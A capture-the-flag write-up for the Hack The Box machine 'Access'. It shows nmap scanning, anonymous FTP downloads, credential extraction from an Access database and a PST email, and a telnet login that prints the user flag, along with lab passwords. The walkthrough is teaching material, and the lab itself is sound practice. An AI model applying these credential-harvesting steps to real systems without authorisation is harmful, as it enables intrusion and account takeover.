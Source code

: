 ```yaml
---
title: Hack-the-box - Write-up - Access
description: 
categories: [Walkthroughs]
tags: [windows,ftp,anonymous access]
---
```


|Machine|Release Date |Operating System|Difficulty|
--------|-------------|----------------|----------|
|Access | 29 Sep, 2018|Windows         |Easy      |

## About Access

Access is an **easy** difficulty machine, that highlights how machines associated with the physical security of an environment may not themselves be secure. Also highlighted is how accessible FTP/file shares can often lead to getting a foothold or lateral movement. It teaches techniques for identifying and exploiting saved credentials.

## Reconnaissance

### Port scanning
I'll start by running an Nmap service and version scan with the default scripts. This will help identify any open ports and provide information about the services running on them, giving us valuable targets for further exploration.
> Always save the Nmap output in a text file for future reference. This practice is invaluable, as repeatedly running Nmap can be time-consuming and unnecessary.
{: .prompt-tip }

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ nmap -sC -sV -p- -Pn  --min-rate 10000 -oA nmap_report 10.129.243.223
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-04 23:11 IST
Nmap scan report for 10.129.243.223
Host is up (0.11s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 200.40 seconds
```
Revewing the `Nmap` report, we are able to find 3 interesting ports that we can try to get our foothold-

|Interesting Port | Service | Version |
|-----------------|---------|---------|
|21/tcp           |ftp      |Microsoft ftpd |
|23/tcp             |telnet | NA    |
|80/tcp         | http | Microsoft-IIS/7.5

### FTP Anonymous Access

Anonymous login is allowed on the target.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ ftp ftp://anonymous:''@10.129.243.223:21
Connected to 10.129.243.223.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
230 User logged in.
Remote system type is Windows_NT.
200 Type set to I.
ftp> 
```
Inside the FTP, there were 2 folders found-
1. Backups
2. Engineer

Inside the Backups folder, we are able to find an access database file called **backup.mdb** and inside the `Engineer` folder, there is a `zip` file called **Access Control.zip**.

We are going to download both of these files locally to our attacker machine foro further analysis.

```shell
ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
200 PORT command successful.
125 Data connection already open; Transfer starting.
100% |****************************************|  5520 KiB  857.28 KiB/s    00:00 ETA
226 Transfer complete.
5652480 bytes received in 00:06 (857.27 KiB/s)
```

```shell
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-24-18  12:16AM                10870 Access Control.zip
226 Transfer complete.
ftp> get "Access Control.zip"
local: Access Control.zip remote: Access Control.zip
200 PORT command successful.
125 Data connection already open; Transfer starting.
100% |****************************************| 10870       33.14 KiB/s    00:00 ETA
226 Transfer complete.
10870 bytes received in 00:00 (33.09 KiB/s)
```

The zip file is password protected and we do not know the password yet, so we will start with the `backup.mdb` file, and for that, we need `mdbtools` installed on our attacker machine. 

```shell
sudo apt install mdbtools
```

> A `.mdb` file is a Microsoft Access database file that was the default file format for Access versions up to 2003. MDB stands for Microsoft Database. 
{: .prompt-info}

There are lots of tables inside the databases, and not everything looks interesting, so we are going to narrow down our focus to user tables.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ mdb-tables -1  backup.mdb |grep user   
auth_user
auth_user_groups
auth_user_user_permissions
userinfo_attarea
```

Out of all, `auth_user` looks the most interesting. Maybe it stores the user authentication information.

Exporting the data using `mdb-export`, we found the credentials for 4 users.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ mdb-export backup.mdb auth_user 
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
```

Using the password for `engineer`, which is `access4u@security`, I was able to extract the zip file, and there was only 1 file found inside called `Access Control.pst`.

> A PST file, or Personal Storage Table file, is a proprietary file format used by Microsoft to store items like emails, contacts, and calendar events: 
{: .prompt-info}

To ead the emails inside of the `.pst` file, there are lots of options, but we are goign to go with a lighweight solution. `readpst` seems to be the best one. Let's install it.

```shell
sudo apt install readpst
```
We are able to find 2 email.

```shell
──(frodo㉿kali)-[~/hack-the-box/access]
└─$ readpst Access\ Control.pst   
Opening PST file and indexes...
Processing Folder "Deleted Items"
	"Access Control" - 2 items done, 0 items skipped.
```

Let's look at the email 

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ cat Access\ Control.mbox 
From "john@megacorp.com" Fri Aug 24 05:14:07 2018
Status: RO
From: john@megacorp.com <john@megacorp.com>
Subject: MegaCorp Access Control System "security" account
To: 'security@accesscontrolsystems.com'
Date: Thu, 23 Aug 2018 23:44:07 +0000
MIME-Version: 1.0
Content-Type: multipart/mixed;
	boundary="--boundary-LibPST-iamunique-1651771506_-_-"


----boundary-LibPST-iamunique-1651771506_-_-
Content-Type: multipart/alternative;
	boundary="alt---boundary-LibPST-iamunique-1651771506_-_-"

--alt---boundary-LibPST-iamunique-1651771506_-_-
Content-Type: text/plain; charset="utf-8"

Hi there,

 

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

 

Regards,

John
```

It looks like password for one of the accounts called `security` was changed to `4Cc3ssC0ntr0ller`.


## Telnet

Let's `telnet` to the target machine with the `security` credentials and try to get a shell.

```shell       
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ telnet 10.129.243.223
Trying 10.129.243.223...
Connected to 10.129.243.223.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>cd Desktop

C:\Users\security\Desktop>type user.txt
c82f427b80a0f0ad1fb46932d1531b45
```










